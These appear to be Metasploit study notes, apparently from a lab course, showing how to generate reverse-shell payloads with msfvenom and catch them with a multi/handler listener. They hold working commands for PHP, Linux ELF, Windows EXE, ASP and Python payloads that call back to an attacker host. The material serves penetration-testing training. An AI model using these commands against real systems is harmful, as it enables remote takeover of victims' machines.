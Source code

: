 #### Handlers  
Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.   
- Generating a PHP reverse shell  
```
root@ip-10-0-2-19:~# msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3020 bytes
```  
Please note: The output PHP file will miss the starting PHP tag commented and the end tag (`?>`), as seen below.  
<img src="https://user-images.githubusercontent.com/73976100/222891696-30b3187c-c726-4ce5-8594-9923c1095376.png" width="600">  
The reverse_shell.php file should be edited to convert it into a working PHP file.   
Below: Comments removed from the beginning of the file.  
<img src="https://user-images.githubusercontent.com/73976100/222891703-47ca33eb-e06b-4dc9-bd2a-c6f3be3ffdb2.png" width="600">  
Below: End tag added  
<img src="https://user-images.githubusercontent.com/73976100/222891706-175c7fc0-bfcf-4a45-a0c9-f8b4b8f0394f.png" width="300">  
<br>

`use exploit/multi/handler`: to receive the incoming connection  
 ```
 msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
```

####  Other Payloads
In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen.  
- Linux Executable and Linkable Format (elf)  
    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`  
    Make sure permissions.
- Windows  
    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`  
- PHP  
    `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- ASP  
    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
- Python  
    `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`  

<details><summary>task</summary></details>
